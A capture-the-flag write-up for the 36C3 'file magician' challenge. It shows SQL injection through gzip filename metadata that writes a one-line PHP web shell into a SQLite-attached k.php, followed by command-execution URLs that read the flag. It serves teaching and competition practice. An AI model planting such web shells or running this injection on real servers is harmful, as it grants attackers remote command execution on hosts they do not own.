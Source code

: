 ```yaml
---
title: 36C3 Senior CTF - SQLi through file metadata to PHP RCE - file magician 
description: Performing SQL injection using file metadata to earn PHP RCE
categories: ctf 36c3 senior
author: Xh4H
tags: 36c3 senior ctf file magician file_magician sqli sqli_injection php php_rce rce remote code execution
---
```


**Challenge description**
```
Web
Difficulty: easy (133 solves): round(1000 · min(1, 10 / (9 + [133 solves]))) = 70 points

Finally (again), a minimalistic, open-source file hosting solution.

```

**Action**

We are given the following files:

<div style="text-align:center"><img src="/assets/images/36c3/files_1.png"/></div>

**index.php** with the code that we will have to analyze, a **Dockerfile** to set up our service locally, and a folder with required stuff for the said service.

Let's start by setting up a docker:

`echo 'hxp{FLAG}' > flag.txt && docker build -t file_magician . && docker run -ti -p 8000:80 file_magician`

<div style="text-align:center"><img src="/assets/images/36c3/docker_setup1.png"/></div>

Docker is now running on port 8000.

Let's read the php code now:

<div style="text-align:center"><img src="/assets/images/36c3/code_review1.png"/></div>

The attack vector is in the following line of code:

```php
$s = "INSERT INTO upload(info) VALUES ('" .(new finfo)->file($_FILES['file']['tmp_name']). " ');";
```

We have to perform SQLi using file metadata. After some research, `.gz` (gunzip) files have an interesting metadata string that will help us a lot.

Here is an example:

<div style="text-align:center"><img src="/assets/images/36c3/gunzip1.png"/></div>

Check how running `file` over the created gunzip displays the name of the original file **between double quotes**, which will break the SQL sentence. In the following image we can see in red the double quotes that will break the SQL sentence, in gray is our file metadata and finally in yellow, the previous file name, where will be inject our SQL injection.

<div style="text-align:center"><img src="/assets/images/36c3/carbon_1.png"/></div>

So, I ran `nano` over the file and edited the previous file name into my SQLi sentence.

_The green marked text is the SQL sentence that I will use to get RCE_

<div style="text-align:center"><img src="/assets/images/36c3/sqli_create.png"/></div>

My php code will be
```php
<?=`$_GET[j]`?>
```

Explanation of the code above:

- `<?`: PHP opening tags.
- `=`: used to echo the output.
- \`: used to execute a string (as if we were using system function).
- `$_GET[j]`: used to retrieve the `j` url parameter
- `>?`: PHP closing tags.

Notice how I am attaching the DB on a file called `k.php`, if the file doesn't exist, it will be created on the current directory, which, in our case, is a random folder:

```php
if( ! isset($_SESSION['id'])) {
    $_SESSION['id'] = bin2hex(random_bytes(32));
}

$d = '/var/www/html/files/'.$_SESSION['id'] . '/';
@mkdir($d, 0700, TRUE);
chdir($d) || die('chdir');
```

**The SQL sentence max char length was 95, so I had to create two different gz, create.gz and insert.gz**

In `create.gz` I attach a new database to a php file and I create a table `p` with a column `d text` that will store my php code.

In `insert.gz` I attach the php sql connection into the newly created database and insert the php code:

<div style="text-align:center"><img src="/assets/images/36c3/sqli_insert.png"/></div>

We upload both files to the service and access our php file as following:

- create.gz to create the DB
- insert.gz to insert our code

Click on the second file:

<div style="text-align:center"><img src="/assets/images/36c3/service_1.png"/></div>

It will bring us to a link like this `http://x.x.x.x:8000/files/70d80f242200060e52e596c9a324407287f40456164726b7d1278c06657e2dd1/2`

Change the last 2 with `k.php` and we will be able to execute PHP code using the 
```php
`$_GET[j])`
```
that we placed before, as we will be accessing a php file that will be executed by the server. Use `j` as url parameter to execute any command within the host system.

`http://x.x.x.x:8000/files/70d80f242200060e52e596c9a324407287f40456164726b7d1278c06657e2dd1/k.php?j=id`

<div style="text-align:center"><img src="/assets/images/36c3/rce_1.png"/></div>

In order to find the flag, as it was generated with random chars in its name, we can use * to expand chars over a file on the system such as `cat /flag*`:

`http://x.x.x.x:8000/files/70d80f242200060e52e596c9a324407287f40456164726b7d1278c06657e2dd1/k.php?j=cat%20/flag*`

<div style="text-align:center"><img src="/assets/images/36c3/rce_2.png"/></div>

**Flag**: hxp{I should have listened to my mum about not trusting files about files}


Thanks for reading :)

<script src="https://www.hackthebox.eu/badge/21439"></script>
